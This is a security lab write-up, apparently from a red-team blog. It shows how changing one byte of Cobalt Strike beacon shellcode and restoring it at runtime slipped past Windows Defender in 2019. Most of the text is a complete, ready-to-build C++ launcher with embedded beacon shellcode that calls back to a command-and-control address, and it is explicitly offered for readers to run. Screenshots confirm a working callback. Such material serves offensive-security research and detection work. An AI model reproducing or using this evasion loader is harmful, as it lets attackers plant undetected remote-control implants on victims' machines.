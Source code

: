 # Evading Windows Defender with 1 Byte Change

This is a fun little lab to illustrate that sometimes changing just 1 byte in the shellcode is enough to bypass certain antivirus products, including the latest Windows Defender at the time of writing 11th Jan, 2019.

In this lab I'm using Windows 10 (1803) as a victim system, Kali running Cobalt Strike and Windows 7 where bad C++ happens.

## Out of the Box Payload Getting Caught

As you probably know, default / out of the box payloads are usually caught by antivirus vendors immedialy. No exception is the Cobalt Strike's default stageless beacon which gets flagged by Windows Defender on Windows 10:

![](<../../.gitbook/assets/Screenshot from 2019-01-11 13-02-28.png>)

Can we do something about it?

## 1 Byte Trick

Let's generate a Cobalt Strike shellcode for our listener in C:

![](<../../.gitbook/assets/Screenshot from 2019-01-11 14-35-25.png>)

Note that the first byte of the shellcode is `\xfc`.

For the next step, I'm using a classic shellcode injection technique I played with in [T1055: Process Injection](../code-injection-process-injection/).

Let's put the shellcode we got into the launcher, but with a small twist:

* Change `\xfc` to any other byte value. I chose `\xfd` (line 80)
* Store the correct first byte `\xfc` in a char variable (line 81)
* Before copying the full shellcode to the newly allocated memory, flip the bad byte `\xfd` with a good one `\xfc` (line 86)
* Build the executable
* Profit?

![](<../../.gitbook/assets/Screenshot from 2019-01-11 14-32-50.png>)

Below is the source code if you want to test it in your environment:

{% code title="shellcodelauncher.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x63\x72\x38\x50\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x31\x2e\x31\x2e\x34\x33\x32\x32\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

	return 0;
}
```
{% endcode %}

## Execution

On the left - Windows 10 with Windows Defender turned on and on the right is Cobalt Strike receiving the beacon checkin once our shellcode is invoked:

![](<../../.gitbook/assets/Peek 2019-01-11 14-45.gif>)

{% hint style="danger" %}
This is a quick and dirty proof of concept and hence the console window is visible for a brief moment, meaning a target user can suspect nefarious activity.
{% endhint %}

Below shows that the beacon that called back is stable and working as expected:

![](<../../.gitbook/assets/Screenshot from 2019-01-11 14-47-10.png>)

Below is another quick demo showing that the latest Windows updates were installed at the time of testing the POC on 11th Jan, 2019:

![](<../../.gitbook/assets/Peek 2019-01-11 15-02.gif>)

## Default Payload

Below shows that if the Cobalt Strike shellcode was injected as is, it immediately gets flagged:

![](<../../.gitbook/assets/Peek 2019-01-11 16-50.gif>)

## Conclusion

Although not completely stealthy - the console window is visible for a brief moment during shellcode exeution, this short lab demonstrates that sometimes all it takes to evade AV detection is 1 one byte way.

## Subliminal Inspiration

{% embed url="https://twitter.com/curi0usjack/status/1083470829290164227?s=12" %}

{% hint style="info" %}
**Update**\
****[@curi0usJack](https://twitter.com/curi0usJack) informed me that [@HackingDave](https://twitter.com/HackingDave) had found the same Windows Defender bypass technique as seen here [https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844](https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844) as part of his `Unicorn` project - very nice work! I will be definitely checking out the tool and its capabilities!
{% endhint %}

